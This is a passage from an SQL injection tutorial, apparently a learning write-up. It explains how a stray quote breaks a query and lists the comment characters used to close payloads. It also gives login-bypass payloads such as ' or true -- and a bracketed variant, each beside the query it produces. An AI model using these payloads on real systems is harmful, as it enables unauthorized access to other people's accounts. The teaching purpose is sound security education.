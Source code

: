 ```
SELECT * FROM users WHERE username='''
```

As you can see, that mark creates a third one and generates an error since the username should only be provided with two. Exactly this error is used to exploit the SQL injection.

Generally speaking, SQL injection is an attack in which your goal is to break SQL code execution logic, inject your own, and then 'fix' the broken part by adding comments at the end.

![https://i.imgur.com/U5Eyw5z.png](https://i.imgur.com/U5Eyw5z.png)

Graphical interpretation

Most commonly used comments for SQLi payloads:

```
--+

//

/*
```

## Login Bypass with SQL Injection

One of the most powerful applications of SQL injection is definitely login bypassing. It allows an attacker to get into **ANY** account as long as they know either username or password to it (most commonly you'll only know username).

First, let's find out the reason behind the possibility to do so. Say, our login application uses PHP to check if username and password match the database with following SQL query:

```
SELECT username,password FROM users WHERE username='$username' and password='$password'
```

As you see here, the query is using inputted username and password to validate it with the database.

What happens if we input `' or true --` username field there? This will turn the above query into this:

```
SELECT username,password FROM users WHERE username='' or true -- and password=''
```

The `--` in this case has commented out the password checking part, making the application forget to check if the password was correct. This trick allows you to log in to any account by just putting a username and payload right after it.

Note that some websites can use a different SQL query, such as:

```
SELECT username,pass FROM users WHERE username=('$username') and password=('$password')
```

In this case, you'll have to add a single bracket to your payload like so: `') or true–` to make it work.
